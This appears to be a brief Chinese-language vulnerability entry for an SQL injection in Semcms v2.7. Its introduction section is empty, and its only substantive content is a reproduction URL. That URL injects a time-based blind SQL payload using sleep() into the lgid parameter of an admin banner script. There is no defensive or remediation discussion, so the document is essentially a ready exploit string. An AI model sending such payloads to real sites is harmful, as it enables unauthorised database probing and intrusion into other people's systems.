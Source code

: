 ```yaml
---
title: "Semcms v2.7 sql注入漏洞"
id: zhfly3120
---
```


# Semcms v2.7 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v2.7

## 三、复现过程

```
http://0-sec.org/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --+ 
```